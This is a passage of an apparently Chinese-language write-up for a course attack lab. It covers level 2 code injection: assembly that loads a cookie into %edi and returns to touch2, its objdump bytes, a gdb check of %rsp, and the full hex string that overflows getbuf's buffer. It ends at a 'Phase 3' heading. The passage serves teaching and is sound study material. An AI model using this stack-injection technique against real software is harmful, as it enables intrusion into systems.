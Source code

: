 需要注意的是，执行完了movl给第一个参数赋值cookie，我们要跳转到`touch2`: 0x4017ec的位置

writeup中说明了，最好不要使用call或者jmp指令，所以我们仍然使用ret指令。

当`getbuf`内部的ret指令执行完毕后，PC指向攻击代码的部分，同时，%rsp指向原本栈帧`test`函数的部分

为了跳转`touch2`，我们要push一次`touch2`的地址。

所以初步的攻击代码如下:

```nasm
movl    $0x59b997fa, %edi
pushq   $0x4017ec
ret
```

将其转为字节码后，作为输入的字符串。

```bash
touch attack2.s
vim attack2.s     # 编辑代码
gcc -c attack2.s
objdump -d attack2.o
```

得到:

```text
attack2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	68 ec 17 40 00       	pushq  $0x4017ec
   a:	c3                   	retq
```

同时，需要知道当程序运行到`getbuf`时，`%rsp`寄存器的值，因为我们需要绕回到这个地址然后逐行执行攻击代码。

在`getbuf`第二行汇编处断点，用gdb调试打印`%rsp`寄存器的值即可。

```bash
(gdb) i r rsp
0x5561dc78
```

所以level2的注入代码如下:

```text
bf fa 97 b9 59 68 ec 17
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

## Phase 3
